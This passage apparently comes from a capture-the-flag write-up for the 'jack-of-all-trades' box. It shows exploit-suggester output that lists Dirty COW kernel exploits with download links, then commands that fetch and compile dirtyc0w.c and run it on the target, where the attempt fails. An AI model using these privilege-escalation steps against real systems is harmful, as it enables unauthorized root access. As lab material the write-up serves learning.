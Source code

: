 ```
49 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: [ debian=7|8 ],RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: [ debian=7|8 ],RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

But, since we have no `gcc`, we need to compile on another system.

```
wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
gcc -pthread dirtyc0w.c -o dirtyc0w
```

We transfer this file on target, but we got no luck:

```
jack@jack-of-all-trades:~$ chmod +x dirtyc0w
jack@jack-of-all-trades:~$ ./dirtyc0w foo m00000000000000000
mmap ffffffffffffffff

madvise -100000000

procselfmem -100000000

jack@jack-of-all-trades:~$ ./dirtyc0w foo m00000000000000000
mmap ffffffffffffffff

madvise -100000000

procselfmem -100000000

```
